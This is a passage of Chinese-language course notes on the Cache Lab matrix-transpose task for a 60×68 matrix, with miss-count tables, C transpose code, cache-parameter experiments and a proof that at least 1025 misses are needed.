1. 偶数行从块的开头开始，奇数行从块的中间开始。 一个块可能横跨两行：奇数行的前 4 个元素与上一行的最后 4 个元素在同一块中。
2. 组号没有短的周期。 每往下一行，组号增加 7.5，要到第 64 行才完全回到起点。哪两行会冲突，只能逐一计算。
32×32 和 64×64 的所有技巧，都建立在“行长是块的整数倍”之上：分块可以与缓存块对齐，同组的行有固定的间隔，对角线位置固定。这些在 60×68 中都不再成立。
6.2 第一反应：切出 2 的幂的部分#
一个很自然的想法是：64 和 56 都是 8 的倍数，先把 A 的前 64 行、前 56 列当作规整的部分，用前面的方法处理，剩下的边角逐个处理。试一试：
表 17 先处理 64 行 × 56 列的“规整部分”，其余逐个转置（test-trans 或第 3.3 节的模型实测）
| 规整部分的写法 | 合计 | A | B |
|---|---|---|---|
| 8×8 分块 | 1924 | 765 | 1155 |
| 8×8 分块，先读后写 | 1792 | 694 | 1094 |
| 8×8 先拷贝再就地转置（32×32 的最终写法） | 1747 | 685 | 1058 |
| 8×8 拆四象限（64×64 的写法） | 1829 | 746 | 1079 |
全都在满分线 1600 之上，32×32 和 64×64 的“最终写法”在这里甚至不如简单的先读后写。原因是：“规整部分”在矩阵中是规整的，在内存中却不是。图 9 画出了其中一个 8×8 分块（A 的第 0～7 行、第 8～15 列）和它转置后的位置（B 的第 8～15 行、第 0～7 列）实际占用的缓存块：
图 9 60×68 中一个“规整”的 8×8 分块在内存中的实际情况
先看 A 一侧。A 的第 0 行从块的开头开始，这一行的第 8～15 列正好是一整块；第 1 行从块的中间开始，第 8～15 列就跨在两个块上，左半块属于左边的分块，右半块属于右边的分块，这两个块都只用到一半。8 行中有 4 行是这样，B 一侧也一样。于是这个“8×8 分块”实际涉及 A 的 12 块、B 的 12 块，两侧各有 8 块只用到一半，另一半要等到相邻的分块才用。
再看组号。32×32 中对角分块的冲突有固定的规律（A 的第 k 行与 B 的第 k 行同组），这里则没有：这个分块中 A 的块和 B 的块有 5 个组相同（6、14、21、23、31），分别是 A 的第 3、4、5、6、7 行与 B 的第 14、15、12、13、10 行同组，看不出任何对应关系。换一个分块，冲突的组和行又全然不同。拆四象限所依赖的“上下两半恰好同组”、就地转置所依赖的“8 行恰好占 8 个不同的组”，在这里都没有保证。
再试几种普通的分块：
表 18 60×68 的普通分块（实测）
| 写法 | 合计 | A | B | 说明 |
|---|---|---|---|---|
| 逐行转置 | 4318 | 612 | 3702 | |
| 4×4 分块 | 1833 | 718 | 1111 | |
| 8×8 分块 | 1761 | 755 | 1002 | |
| 12×12 分块 | 1741 | 758 | 979 | 正方形块中最好的 |
| 16×16 分块 | 1871 | 741 | 1126 | |
| 17×17 分块 | 2204 | 842 | 1358 | 原版 Lab 61×67 的常见写法，这里反而很差 |
| 4×4 分块，先读后写 | 1685 | 639 | 1042 | |
| 8×8 分块，先读后写 | 1622 | 680 | 938 | 只差一点 |
| 矩形块 16 行 × 4 列 | 1631 | 793 | 834 | |
| 矩形块 24 行 × 4 列 | 1591 | 813 | 774 | 在 1～24 的行数、列数中逐一搜索，最好的普通矩形块 |
普通分块最好也只是刚刚低于 1600。块的大小对结果的影响没有规律：12×12 比 8×8 好，16×16 又变差，17×17 更差。这正是“组号没有规律”的直接表现。
6.3 退一步：8 列竖条加先读后写#
既然对齐、对角线都靠不住，不妨回到最基本的原则：A 一侧每次读一段连续的元素，B 一侧同时在用的行尽量少，并且读和写在时间上分开。把 A 按每 8 列分成一条竖条，对每一条从第 0 行走到第 67 行，每行把 8 个数读进局部变量，再写到 B 的 8 行中：
for (j = 0; j + 8 <= 60; j += 8) /* 7 strips of 8 columns */
for (i = 0; i < 68; i++) {
t0 = A[i][j]; ... t7 = A[i][j + 7];
B[j][i] = t0; ... B[j + 7][i] = t7;
}
for (i = 0; i < 68; i++) /* the last 4 columns */
for (j = 56; j < 60; j++)
B[j][i] = A[i][j];结果 1506 次，轻松拿到满分（最后 4 列也用先读后写则是 1497）。注意外层循环的条件写成 j + 8 <= 60：若写成 j < 60，j 会取到 56，多处理 56～63 列，读写都越界。
为什么这样简单的写法反而更好？关键在 B 一侧。一条竖条只写 B 的 8 行，而 B 相邻两行的组号相差 8.5，这 8 行的块在缓存中正好错开。图 10 画出了第一条竖条写到的 B 的块：处理 A 的第 0～7 行时，B 的 8 行用到 12 个块（奇数行的块跨了半格，每行 1 或 2 块），组号全都不同；往下处理，每过 8 行换一批块，同样互不冲突。对 7 条竖条的每一行逐一检查，正在写的 8 块的组号都互不相同。所以 B 的每一块在写满 8 个元素之前一直留在缓存中，只装入一次。
图 10 8 列竖条写 B 时用到的块：同一时刻在写的块组号互不相同
A 一侧每行读 8 个数进局部变量，读完就不再需要这一行，不必留在缓存里。整个写法不依赖任何对齐，也不需要知道哪两行同组。和 8×8 分块先读后写（1622）相比，唯一的区别是处理顺序：竖条是一条走到底，B 的 8 行一直在用；分块则在一个 8 行的行带内横向走过所有竖条，B 一侧要在 7 组不同的行之间来回切换，同时在用的块多了，一块在写满之前更容易被换出（B 的不命中 938 次，竖条只有 712 次）。
对于一条固定的竖条，把 68 行按任意高度分段、再逐段处理，访问顺序与直接从第 0 行走到第 67 行完全相同，所以“块高”取多少结果都一样。
6.4 再进一步：4 列竖条#
8 列竖条中 A 有 786 次不命中，下界是 510，多出的主要来自奇数行。如图 11，奇数行的块从第 4、12、20……列开始，8 列竖条（红线）正好把奇数行的每一块切成两半，左右两条竖条各用一半，而两次使用之间隔着整整 68 行，这一块早已被换出。
图 11 60×68 中 A 的块边界：8 列竖条（红线）切开奇数行的块，4 列竖条（再加上蓝虚线）不切开任何块
每一行的起点都在 16 字节的边界上，4 个 int 正好 16 字节，所以宽度为 4 的竖条永远不会切开一个块：A 的每一块恰好由相邻两条 4 列竖条各用一半。但仅仅改成 4 列还不够，一条竖条从第 0 行走到第 67 行，结果是 1642 次（A 996 次）：一块的左半在第 j 条竖条中用到，右半要等第 j+1 条竖条再走一遍 68 行才用到，中间早已换出，几乎每块都装入两次。
要让同一块的两半“连着用”，就要缩短两条相邻竖条访问同一块的时间间隔：把 68 行分成若干段，在每一段内依次处理全部 15 条竖条，段越矮，间隔越短；但段太矮时，B 一侧的块又会在写满之前被换出。用第 3.3 节的模型对段高从 1 到 68 逐一试验，24 行最好：
表 19 4 列竖条的段高（模型实测，与 test-trans 一致）
| 段高 | 合计 | A | B |
|---|---|---|---|
| 68（不分段） | 1642 | 996 | 642 |
| 20 | 1442 | ||
| 24 | 1430 | 726 | 700 |
| 28 | 1436 |
static void trans60(int A[68][60], int B[60][68])
{
int i, j, r, n, t0, t1, t2, t3;
for (i = 0; i < 68; i += 24)
for (j = 0; j < 60; j += 4) {
n = (i + 24 < 68) ? i + 24 : 68;
for (r = i; r < n; r++) {
t0 = A[r][j]; t1 = A[r][j + 1];
t2 = A[r][j + 2]; t3 = A[r][j + 3];
B[j][r] = t0; B[j + 1][r] = t1;
B[j + 2][r] = t2; B[j + 3][r] = t3;
}
}
}6.5 离下界还有多远#
1430 比朴素下界 1024 多出约 400 次；这个 1024 本身也不是可达下界，第八部分会把它提高。多出的不命中可以分成两类。一类是结构性的：由于奇数行错开半块，任何把矩阵切成小块的方式，都会把一部分缓存块切成两半，分到两个小块中；只要这两个小块不是连着处理，这一块就要装入两次。另一类是冲突：组号没有规律，总有一些本该留在缓存中的块被提前换出。
可以用一个实验区分两者：把 8 列竖条的访问序列交给一个容量相同（32 块）但全相联、LRU 替换的缓存，不命中仍有 1326 次（第七部分）。也就是说，在 1506 次中，只有约 180 次是冲突造成的，其余是访问顺序本身决定的。要真正接近这个朴素下界，必须设计一种能让被切开的块“两半连着用”、同时照顾 A、B 两侧错位的访问顺序，这比 32×32、64×64 困难得多；第八部分给出一个按整块读 A、再安排读取顺序的写法，并证明 1024 次仍不可能达到。好在满分线是 1600，8 列竖条就已足够。
图 12 三种规模各种写法的不命中次数（红色虚线为朴素下界，灰色点线为满分线）
第七部分 拓展：本 Lab 没有用到的缓存优化#
Part B 的评测缓存是固定的：1 KB、直接映射、块大小 32 字节、写分配，矩阵的位置也固定。真实的程序优化中，还有许多改变这些条件、或者不依赖这些条件的方法。本部分用第 3.3 节的模型做实验：把缓存的相联度、矩阵的位置、写策略改一改，看前面各种写法的不命中会怎样变化。这些实验只改变模型的参数，转置代码不变；所有写法在各种参数下结果都正确。
7.1 冲突不命中有多少：与全相联缓存对照#
第 13 讲把不命中分成三类：冷不命中（第一次访问）、容量不命中（工作集超过缓存容量）、冲突不命中（缓存没满，但几块映射到同一组）。区分后两类的标准做法，是把同样的访问序列交给一个容量相同的全相联缓存（任何块可以放在任何位置），用 LRU 替换。全相联缓存中没有冲突不命中，两者的差就是冲突不命中。
表 20 直接映射与全相联（同为 32 块、LRU）的不命中（模型实测）
| 规模 | 写法 | 直接映射 | 全相联 | 差 |
|---|---|---|---|---|
| 32×32 | 逐行转置 | 1184 | 1156 | 28 |
| 32×32 | 8×8 分块 | 344 | 260 | 84 |
| 32×32 | 8×8 先读后写 | 288 | 260 | 28 |
| 64×64 | 8×8 分块 | 4724 | 1028 | 3696 |
| 64×64 | 4×4 分块 | 1892 | 1540 | 352 |
| 64×64 | 8×8 拆四象限 | 1228 | 1028 | 200 |
| 60×68 | 8×8 分块 | 1761 | 1328 | 433 |
| 60×68 | 8 列竖条（最后 4 列也先读后写） | 1497 | 1326 | 171 |
| 60×68 | 4 列竖条，每 24 行一段 | 1430 | 1617 | −187 |
几个观察。第一，32×32、64×64 的 8×8 分块在全相联缓存中直接达到下界，它们多出的不命中全部是冲突不命中，第四、五部分的种种技巧，归根到底都是在直接映射缓存中避开冲突。第二，64×64 的 8×8 分块差了 3696 次，冲突不命中可以比冷不命中多好几倍。第三，最后一行全相联反而更差：4 列竖条每 24 行一段的访问顺序，在 LRU 下会出现“循环访问的块数略多于容量，每次都恰好换出下一个要用的块”的情况（与例 1 中两路组相联的现象相同）。直接映射缓存在这里歪打正着，这个结果是专门针对直接映射调出来的。
7.2 提高相联度#
真实的 L1 缓存大多是 8 路组相联。把评测缓存改成 2 路、4 路组相联（总容量仍是 1 KB，组数相应减为 16、8 组），结果如下：
表 21 同样 1 KB 的缓存，不同相联度下的不命中（模型实测，LRU）
| 规模 | 写法 | 直接映射 | 2 路 | 4 路 | 全相联 |
|---|---|---|---|---|---|
| 32×32 | 8×8 分块 | 344 | 368 | 472 | 260 |
| 32×32 | 先拷贝再就地转置 | 260 | 276 | 284 | 260 |
| 64×64 | 8×8 分块 | 4724 | 4612 | 4612 | 1028 |
| 64×64 | 拆四象限 | 1228 | 1548 | 1772 | 1028 |
| 64×64 | 四象限＋对角借暂存 | 1028 | 1284 | 1412 | 1028 |
| 60×68 | 8×8 分块 | 1761 | 1376 | 1336 | 1328 |
| 60×68 | 8 列竖条 | 1497 | 1326 | 1326 | 1326 |
相联度高并不总是更好。针对直接映射精心设计的写法（第四、五部分的最终写法）依赖“哪几行同组”这一精确的映射关系，换成组相联后组数变少，原来不同组的行挤到了同一组，LRU 又不能保证留下我们想留的块，结果反而变差。没有专门设计的写法（60×68 的分块和竖条）则普遍受益。实际程序很少针对某一个缓存的映射关系写代码，所以硬件上提高相联度通常是有益的；这也是为什么 Part B 的技巧更像是“为一个特定缓存手工调度”，而不是通用的优化方法。
7.3 改变数据布局：错开起点与行填充#
32×32、64×64 的对角线冲突，根源是 A、B 相距 1 KB 的整数倍，同一位置的元素同组。如果能改变 B 的位置，冲突会不会消失？
第一种办法是把 B 的起点往后挪一点。实测把 B 错开 32、64、128 字节，32×32 的 8×8 分块分别是 343、342、340 次，几乎没有变化；64×64 的四象限方法从 1228 变成 1230～1236，最终写法从 1028 变成 1235。冲突并没有消失，只是从对角分块挪到了别的分块：A 的第 k 行原来与 B 的第 k 行同组，错开一块之后，就与 B 的另一行同组了。最终写法依赖原来的映射关系，挪动之后反而失效。
第二种办法是改变行距：每一行的末尾补上若干个不用的 int（行填充，padding），例如把 64×64 的矩阵存成 64 行、每行 72 个 int。这样相隔 4 行的元素不再同组，同组的行间隔被打乱：
表 22 每行末尾补 p 个 int 之后的不命中（模型实测，A、B 都补）
| 写法 | p = 0 | p = 1 | p = 4 | p = 8 | p = 16 |
|---|---|---|---|---|---|
| 32×32，8×8 分块 | 344 | 796 | 570 | 386 | 372 |
| 32×32，8×8 先读后写 | 288 | 572 | 506 | 303 | 298 |
| 64×64，8×8 分块 | 4724 | 5124 | 1813 | 1484 | 1388 |
| 64×64，8×8 先读后写 | 4612 | 3780 | 1640 | 1184 | 1152 |
对 64×64，补 8 个 int（一块）之后，最朴素的 8×8 先读后写就从 4612 降到 1184，比本讲义费尽心思的四象限方法还好。对 32×32 却没有帮助，因为 32×32 的 8×8 分块本来就没有块内冲突。补 1 或 4 个 int 会让每行不再从块的开头开始，出现与 60×68 相同的“跨块”问题，反而更差。
行填充在科学计算中很常见（矩阵的“主维度”取得比实际列数稍大），用来避开 2 的幂造成的冲突。本 Lab 中矩阵的位置和行距都由评测程序决定，不能这样做。
7.4 写策略：写不分配#
第 13 讲 13.6 节讲过两种写不命中的处理方式：写分配（先把块装入缓存，再写）和写不分配（直接写到下一层，不装入缓存）。评测缓存是写分配的。如果改成写不分配，B 的块永远不进入缓存，每一次写都不命中：32×32 中只写 B 的写法（逐行、分块、先读后写）都变成 1156 次（B 的 1024 次写全部不命中），先拷贝再就地转置还要读 B，变成 1284 次；64×64 的四象限方法 5020 次，60×68 的 8 列竖条 4862 次。这时“B 的块装入一次”这个目标本身就不存在了，分块对 B 一侧没有意义。
真实的处理器中，L1 缓存通常是写回加写分配；对于“写了之后很久都不会再读”的大量数据（例如清零一大块内存），x86 提供绕过缓存的“非临时”存储指令，配合写合并缓冲区把同一块的几次写合并成一次，既不污染缓存，也不浪费带宽。
7.5 与缓存参数无关的写法：递归转置#
本 Lab 的各种写法都用到了缓存的具体参数：块大小 8 个 int，能同时放 8 行或 4 行。另一类方法不需要知道这些参数，称为缓存无关（cache-oblivious）算法。递归转置是典型的例子：把矩阵沿较长的一边切成两半，分别递归转置，直到子矩阵足够小再直接转置。不论缓存多大、块多大，总有某一层递归的子矩阵恰好能放进缓存，于是在每一级缓存上都自动具有分块的效果。
表 23 递归转置（子矩阵不超过 c × c 时直接转置，先读后写）的不命中（模型实测）
| 规模 | c = 4 | c = 8 | c = 16 | 全相联下最好 |
|---|---|---|---|---|
| 32×32 | 344 | 288 | 1156 | 260 |
| 64×64 | 1700 | 4612 | 4612 | 1028 |
| 60×68 | 2050 | 1925 | 1754 | 1472 |
在全相联缓存中，递归转置对 32×32、64×64 都直接达到下界，说明它确实不需要知道缓存的大小；但在直接映射缓存中，它同样逃不过冲突不命中，结果与普通分块相当。本 Lab 禁止递归（递归会让栈上的变量数无法控制），这里只作为思路介绍。
7.6 其他方法#
本 Lab 只有一级缓存，而真实的机器有寄存器、L1、L2、L3 多级存储，每一级都可以分块，这就是多级分块：最内层的小块放在寄存器中（相当于本 Lab 的 8 个局部变量），中间一层的块放进 L1，外层的块放进 L2。第 13 讲 13.12 节矩阵乘法的分块，就是在一级缓存上的分块；高性能的矩阵运算库会同时做好几级。
另一类方法是预取。硬件预取器会发现按固定步长的访问，提前把后面的块装入缓存；软件也可以用预取指令提示处理器。预取不减少需要装入的块数，它的作用是让装入与计算重叠，隐藏访存的延迟。本 Lab 只数不命中的次数，不计时间，预取本身也是一次访问，所以在这个模型里看不出效果。
前面的实验还提示了一条设计上的经验：避免 2 的幂的步长。64×64 比 32×32 难得多，根本原因是行长 256 字节是缓存容量的 1/4，相隔 4 行就同组。数组的行长、步长恰好是 2 的幂时，最容易出现大量冲突。7.3 节的行填充是一种办法；在设计数据结构时有意避开 2 的幂，是更一般的经验。
至于第 14 讲的循环展开、减少过程调用等减少循环开销的优化，它们减少的是指令数，不改变访存的次数和顺序，与本 Lab 的不命中计数无关；但在真实程序中，访存优化和指令优化往往要同时考虑。
第八部分 深入拓展：60×68 还能低到多少#
6.5 节算过，4 列竖条每 24 行一段的写法是 1430 次，离朴素下界 1024 还差 400 多次。这个差距能缩小到什么程度？答案要从两头说。往下做，目前找到的最好写法是 1270 次；往上证，可以证明任何写法都至少要 1025 次，1024 是达不到的。1270 和 1025 之间的这段空当，目前还不知道最好的写法落在哪里。
图 13 把这一路的结果画在一起，每一条都用 test-trans 实测，并拆成 A、B 两侧的不命中。
图 13 60×68 各种写法的不命中，拆成 A、B 两侧
8.1 先把 A 一侧压到 510#
把 1430 次拆开看，A 一侧 726 次，B 一侧 700 次，框架 4 次。A、B 各有 510 个缓存块，两侧都比 510 多出 200 次左右。先看 A 一侧多出来的部分是怎么来的。
6.1 节已经指出，A 的一行是 7.5 块，奇数行的块从第 4、12、20……列开始。图 14 画出了 A 的前 4 行。按列切竖条时，竖条的分界落在第 8、16、24……列，正好把奇数行的每一块切成两半，左右两条竖条各用一半；两次使用之间往往隔了很久，这一块早已被换出，只好再装入一次。块是缓存搬运的单位，C 的行和列却不是，按行列切分，总会有一些块被切开。
图 14 A 的前 4 行：一行 7.5 块，第 7、22 块跨在两行之间
那就换一个角度，不按 C 的行列来切，直接按物理缓存块来读。A 一共 4080 个 int，恰好是 510 个完整的块，把它们按地址编号为 0～509。第 n 块的第一个元素在 A 中的扁平下标是 p = 8n，第 k 个元素是 A[(p+k)/60][(p+k)%60]。大部分块落在同一行里；第 7、22、37……块跨在两行之间，前 4 个元素在上一行的末尾，后 4 个在下一行的开头，用除法和取余算下标，这两种情况可以一并处理，也不会越出行的边界。每次读一整块，8 个数放进 8 个局部变量，再写到 B 的对应位置：
static void line60(int n, int A[68][60], int B[60][68])
{
int p = 8 * n;
int t0, t1, t2, t3, t4, t5, t6, t7;
t0 = A[p / 60][p % 60];
t1 = A[(p + 1) / 60][(p + 1) % 60];
t2 = A[(p + 2) / 60][(p + 2) % 60];
t3 = A[(p + 3) / 60][(p + 3) % 60];
t4 = A[(p + 4) / 60][(p + 4) % 60];
t5 = A[(p + 5) / 60][(p + 5) % 60];
t6 = A[(p + 6) / 60][(p + 6) % 60];
t7 = A[(p + 7) / 60][(p + 7) % 60];
B[p % 60][p / 60] = t0;
B[(p + 1) % 60][(p + 1) / 60] = t1;
B[(p + 2) % 60][(p + 2) / 60] = t2;
B[(p + 3) % 60][(p + 3) / 60] = t3;
B[(p + 4) % 60][(p + 4) / 60] = t4;
B[(p + 5) % 60][(p + 5) / 60] = t5;
B[(p + 6) % 60][(p + 6) / 60] = t6;
B[(p + 7) % 60][(p + 7) / 60] = t7;
}8 个数先全部读完、再全部写出，和第四部分的“先读后写”是同一个道理：读 A 的这一块时，还没有任何对 B 的写入来换出它。所以每调用一次 line60，A 只不命中一次。510 块各调用一次，不论按什么顺序调用，A 一侧都恰好是 510 次，这一侧已经到了下界。
接下来的问题全在 B 一侧，而 B 一侧的结果完全取决于 510 次调用的先后顺序。最省事的顺序是按编号 0、1、2……依次调用，也就是逐行扫描 A，结果是 4203 次，和逐行转置的 4318 次差不多。
8.2 B 一侧：调用顺序决定一切#
为什么顺序这样要紧？看 B 的一个块是怎样被写满的。图 15 中红色的 8 个元素是 B 的一个块 B[12][8..15]，转置前它们是 A 的第 12 列、第 8～15 行，分属 8 个不同的 A 块（浅蓝）。也就是说，B 的这一块要等这 8 个 A 块都读过之后才能写满。在这之前它是“写了一半”的状态，必须一直留在缓存里；一旦被换出，后面再写它时就要重新装入一次。
图 15 B 的一个块要等 8 个 A 块读完才能写满
反过来，每个 A 块的 8 个元素又分别写进 B 的 8 个不同的块。510 个 A 块和 510 个 B 块就这样织成一张网：读一个 A 块，会让 8 个 B 块各前进一步。好的顺序，要让每个 B 块从写入第一个元素到写满的这段时间尽量短，同时在写的 B 块不能太多，否则缓存装不下。按编号逐行扫描之所以那么差，就是因为 B 的一个块要等 8 行 A 都读过才写满，而读 8 行 A 要经过 60 个 A 块，同时在写的 B 块远远超过 32 个。
一个自然的折中是分行带：把 A 每 h 行分成一带，在一带之内从左往右扫，每次处理起始列相同的那几块，一带扫完再扫下一带。
static void trans60(int A[68][60], int B[60][68])
{
int band, c, r;
for (band = 0; band < 68; band += 12) /* bands of 12 rows of A */
for (c = 0; c < 60; c += 4) /* sweep left to right */
for (r = band; r < band + 12 && r < 68; r++)
if ((r * 60 + c) % 8 == 0) /* a block starts at (r, c) */
line60((r * 60 + c) / 8, A, B);
}带高 h 有一个两难。带越矮，一个 B 块的 8 行越容易跨过行带的边界，前一半在这一带写、后一半要等下一带，中间隔了整整一次横扫，几乎一定被换出；带越高，扫到某一列时同时在写的 B 块越多，又装不下。逐一试过 1～68 的带高，h = 12 最好，test-trans 为 1402 次；h = 4、8、16、24 分别是 1566、1452、1568、1698 次。这个写法已经比第六部分的 1430 次好，而且只有 3 个局部变量，加上 line60 的 9 个，同一时刻仍不超过 12 个。
从这里再往下，就没有简单的规律可循了。把行带和扫描的起点挪动一下，再让相邻的行带一左一右反向扫（蛇形），可以降到 1338 次。再往下，只能把它当成一个搜索问题：510 个块的一个排列，就是一种调用顺序，按评测用的直接映射缓存模拟一遍，就能算出不命中次数。从 1338 次的顺序出发，用模拟退火反复尝试交换两个块的位置、把一个块挪到别处、把一段顺序倒过来，留下更好的结果，最终得到 1270 次（矩阵部分 1266 次）。
实验规定不能使用额外的数组，搜索得到的顺序不能存成一张表在运行时查。办法是把 510 次调用直接写进代码：
static void trans60(int A[68][60], int B[60][68])
{
#define L(n) line60((n), A, B)
L(103); L(118); L(148); L(95); L(125); L(110); L(140); L(141);
L(178); L(133); L(119); L(96); L(111); L(163); L(126); L(104);
/* ... 共 510 次调用，每个块恰好一次 ... */
L(81); L(66); L(43); L(73); L(88); L(35); L(65); L(50);
#undef L
}这 510 个编号是搜出来的，看不出规律。这样的代码只对这一个规模、这一种缓存、这一种矩阵位置有效，可读性很差，换一台机器也未必更快；作为 Lab 的提交，1600 以内就是满分，完全不需要它。它的价值在于说明一件事：在这个问题里，一个 B 块从开始写到写满要等多久，比用什么形状的分块重要得多。从 1430 到 1270，A 一侧少了 216 次，B 一侧反而多了 56 次，减少的不命中全部来自“按整块读 A”。B 一侧的 756 次仍比 510 次多出 246 次，这些多出来的不命中能不能再少，就是下一节的问题。
8.3 为什么到不了 1024#
1024 次是怎么来的，先回顾一下。A、B 各 510 块，每块至少要冷装入一次，矩阵部分至少 1020 次；test-trans 框架自己还有 4 次：写开始标记、读函数指针、读 M 和 N（两者在同一块），这是 3 次冷不命中；矩阵的块铺满了全部 32 个组，开始标记所在的块一定会被换出，最后写结束标记时还要再不命中一次。1024 次能不能达到，就看矩阵部分能不能只有 1020 次。
假设真有一种写法，矩阵部分只有 1020 次不命中。那么 A、B 的每一块都恰好装入一次，从此可以推出两件事。第一，A 的一块被换出之后再也不能读，它的 8 个数如果还没有写到 B，就必须事先存在别处。第二，B 的一块被换出之后再也不能碰，所以它被换出时必须已经写好了全部 8 个最终的值。
现在盯住一个特定的时刻：A 的第 256 个不同的块刚刚装入缓存。在它之前已经读过 255 个 A 块，里面共有 2040 个数。这些数此刻只有两种去处：要么已经写进了某个写好并且被换出的 B 块，算是“落地”了；要么还没落地，那就必须还拿在手里，可能在缓存中仍然留着的 A 块或 B 块里，也可能在局部变量里。手里能放多少个数？缓存一共 32 块，其中一块刚刚装进第 256 个 A 块，装的是另外 8 个数，剩下 31 块共 248 个位置，再加上 12 个局部变量，一共 260 个。所以至少有 2040 − 260 = 1780 个数已经落地。每个写好的 B 块只装 8 个数，1780 个数至少要 223 个 B 块，而 222 个只能装 1776 个。
一个 B 块要在此刻已经写好，它需要的 8 个 A 块（图 15）必须都在这 255 个之中。于是问题变成：255 个 A 块，最多能“凑齐”多少个 B 块？下面证明最多 222 个，比 223 少一个，矛盾。这就说明矩阵部分不可能只有 1020 次，至少 1021 次，加上框架的 4 次，test-trans 至少 1025 次。
剩下的是一个纯粹的计数问题，关键是看清 A 块和 B 块之间的依赖有什么规律。回到 图 15，把 A 按 4 行 4 列划成方格，68×60 的 A 一共 17×15 个方格。图中可以看出三个事实，它们对所有方格都成立（已用程序从扁平下标逐一核对）。
第一，A 的每一块都横跨左右相邻的两个方格，在每个方格里各占一行中的 4 个元素。同一个方格行里，这样的块恰好两两成对：例如第 8、10 行覆盖第 2、3 个方格的两块是一对，第 9、11 行覆盖第 3、4 个方格的两块是另一对。把每一对看成连接相邻两个方格的一条“横边”，一个方格行里有 15 条横边，首尾相接成一个环：跨在两行之间的那些块（图 14 中的橙色），连接的就是最右边和最左边的两个方格。A 的 510 块一共组成 17×15 = 255 对。
第二，一个方格的 4 行，由它左右两条横边各负责两行。所以一个方格的 16 个元素全部读过，等价于它左右两条横边对应的 4 个 A 块都已装入。称这样的方格为“读全”的方格。
第三，B 的一块总是落在同一个方格列里上下相邻的两个方格中，每个方格里占一列的 4 个元素（图 15 中是方格 (2,3) 与 (3,3)），它需要的 8 个 A 块，恰好就是这两个方格左右的 4 条横边。所以，B 的一块能凑齐，当且仅当它上下两个方格都读全。上下方向同样首尾相接：B 的一行是 8.5 块，跨行的那些块连接的是最下面和最上面的方格。
装入 255 个 A 块时，完整装入的 A 块对最多只有 127 对（255 是奇数，总有一块落单），而只有完整装入的一对才能让方格读全。于是问题成了一个关于方格的游戏：在 17×15 个方格组成的环面上选 127 条横边，一个方格的左右两条横边都被选中就算读全，上下两个方格都读全就得一分，最多能得几分？图 16（a）用一小块方格演示了规则。
图 16 方格游戏：选 127 条横边，最多得 111 分
图 16（b）是一个得 111 分的选法：前 8 个方格行的 15 条横边全选（120 条），第 9 个方格行再选连续的 7 条。前 8 行的方格全部读全，相邻两行之间各得 15 分，共 7×15 = 105 分；第 9 行有 6 个方格读全，与上一行之间又得 6 分，一共 111 分。下面证明不可能更多，也就是 B 块最多凑齐 2×111 = 222 个。
先看一个方格行。设这一行选了 e 条横边，读全的方格数记为 f。如果 15 条全选，15 个方格都读全，f = 15；一条都不选，f = 0。介于两者之间时，选中的横边在环上分成若干段，一段连续的 l 条横边夹着 l − 1 个读全的方格，所以 f 等于 e 减去段数，至少比 e 少 1，即 f ≤ e − 1。
再看相邻的两个方格行。只有两行在同一列都读全才能得分，所以这两行之间的得分不超过两行读全方格数中较小的那个。把第 r 个方格行的读全方格数记为 fr，总分因此不超过 min(f0, f1) + min(f1, f2) + … + min(f16, f0)，这 17 个方格行也是首尾相接的。
每一项 min(fr, fr+1) 都等于 fr 减去“从第 r 行走到下一行时 f 下降的量”（上升或持平时，下降量算 0）。把 17 项加起来，总分不超过各行 f 之和减去绕环一圈的总下降量。绕环一圈，从 f 最大的行走到 f 最小的行，总下降量至少是两者之差，于是得到一个方便的估计：总分 ≤ (f0 + f1 + … + f16) − (最大的 f − 最小的 f)。
把 127 条横边在各方格行的分配分成两种情况，就能看出总分不超过 111。记全选的方格行有 k 行，部分选中（选了 1～14 条）的方格行有 q 行。全选的行 f = e，部分选中的行 f ≤ e − 1，所以各行 f 之和不超过 127 − q。
情况一：有一个方格行一条都没选。这时最小的 f 是 0，总分 ≤ 127 − q − 最大的 f。若 k ≥ 1，最大的 f 是 15；127 不是 15 的倍数，至少有一行只是部分选中，q ≥ 1，总分 ≤ 127 − 1 − 15 = 111。若 k = 0，每行最多选 14 条，至少要 10 行才放得下 127 条，q ≥ 10；而这些行里最多的一行至少选了 8 条（127 条分到不超过 16 行），最大的 f 至少是 7，总分 ≤ 127 − 10 − 7 = 110。
情况二：每个方格行都至少选了一条。若 k = 0，17 行全是部分选中，各行 f 之和不超过 127 − 17 = 110，总分也不超过 110。若 k ≥ 1，其余 17 − k 行每行至少一条，15k + (17 − k) ≤ 127，所以 k ≤ 7，q = 17 − k ≥ 10；部分选中的这些行平均分到不超过 112/16 = 7 条，最少的一行至多 7 条，最小的 f 至多 6；最大的 f 是 15。总分 ≤ 127 − 10 − 15 + 6 = 108。
两种情况下总分都不超过 111，只有“有一行全空、有一行全满”时才可能取到 111，正是 图 16（b）的样子。所以 255 个 A 块最多凑齐 222 个 B 块，前面的矛盾成立：矩阵部分至少 1021 次不命中，test-trans 至少 1025 次。
8.4 这个下界说明了什么#
这个证明对算法几乎没有限制：A、B 两侧以什么顺序访问，B 中尚未换出的块拿来暂存什么，缓存用什么替换策略，都允许。它用到的只有实验规则本身：最多 12 个局部 int；一个 int 只能存一个矩阵元素，不能把两个元素拼进一个变量，也不能把元素的值藏进程序的分支走向里；不能修改 A；对任意输入的矩阵都要正确。这是对“最多 12 个局部变量”这条规则通常的理解，钻规则字面空子的写法不在讨论之列。
它也只说明了一半的事情。1024 达不到，最少要 1025，但 1025 能不能达到并不知道；1270 是不是最好，也不知道。证明里用到的只是“某一个时刻手里放不下”，真正的写法还要在每一个时刻都放得下，还要应付直接映射缓存中块与块抢同一个组的问题。最好的写法到底在 1025 和 1270 之间的哪里，仍然是一个开放的问题。
回过头看，这个下界的证明和 8.2 节的写法用的是同一个观察：在 1024 次的理想情形下，读进来的每一个数都要一直拿在手里，直到它所在的 B 块写满。写法要做的，是让手里的数尽量少；证明说明的是，无论怎样安排，总有一个时刻手里的数比 260 个还多。32×32 和 64×64 之所以能恰好达到朴素下界，是因为行长是块的整数倍，一个 8×8 分块读进来的数，在分块内部就能全部落地；60×68 的块和方格交错成环，读进来的数总有一部分要等很久才能落地。
第九部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。2025 年 Cache Lab 的 5 道题，有 3 道直接考实验说明和工具：valgrind 在实验中的用途、Part A 的模拟器应当忽略哪一种访存、M 操作应当怎样处理，以及解析命令行参数应当用哪个库函数；另外 1 道考分块为什么能改善转置的局部性。也就是说，这一部分的题目并不难，但只有读过实验说明的细节才答得上来。
